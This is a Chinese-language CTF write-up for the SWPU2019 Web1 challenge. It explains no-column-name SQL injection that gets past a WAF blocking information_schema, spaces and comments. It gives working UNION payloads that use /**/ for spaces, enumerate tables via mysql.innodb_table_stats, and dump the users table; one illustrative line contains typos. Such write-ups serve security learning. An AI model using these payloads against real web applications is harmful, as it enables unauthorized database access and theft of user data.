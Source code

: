 

# 0x32.[SWPU2019]Web1(无列名注入)

>   https://www.anquanke.com/post/id/193512
>
>   information_schema被waf，无列名注入

```sql
无列名注入
select 1,2,3 union select * from users;
// 使用这个语句，前面的select 1，2，3 会变成列名。如果此时我们再使用下面的语句
slecet 2 form (select 1,2,3 union select * from users)a; 
// 就可以得到我们的第二列的所有数据
```

通过测试发现过滤了空格，or和注释符号，这样orderby和information_schema都使用不了了。

information_schema使用不了可以使用InnoDb引擎或者sys数据库

>   从MYSQL5.5.8开始，InnoDB成为其默认存储引擎。而在MYSQL5.6以上的版本中，inndb增加了innodb_index_stats和innodb_table_stats两张表，这两张表中都存储了数据库和其数据表的信息，但是没有存储列名。
>
>   在5.7以上的MYSQL中，新增了sys数据库，该库的基础数据来自information_schema和performance_chema，其本身不存储数据。可以通过其中的schema_auto_increment_columns来获取表名。
>
>   sys库需要root权限才能访问。innodb在mysql中是默认关闭的。

空格可以用内联/**/来绕过

经过测试发现有22个字段，回显在2和3：

>   -1'/\*\*/UNION/\*\*/SELECT/\*\*/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'

比赛中bypass `information_schema`是用的`sys.schema_auto_increment_columns`，但是buu平台没有这个库。

还有一个方法：

innodb

-   表引擎为innodb
-   MySQL> 5.5
-   innodb_ table_stats、 innodb_table_index存 放所有库名表名
-   `select table_name from mysql.innodb_table_stats where database_ name=库名`;

这个方法在buu也不行。。。

所以只能无列名注入：

使用innodb绕过：

```
-1'/**/union/**/select/**/1,2,group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()&&'1'='1
```

查到有ads和users两张表。

````
-1'/**/union/**/select/**/1,(select/**/group_concat(`2`)/**/from/**/(select/**/1,2,3/**/union/**/select*from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22&&'1'='1
````
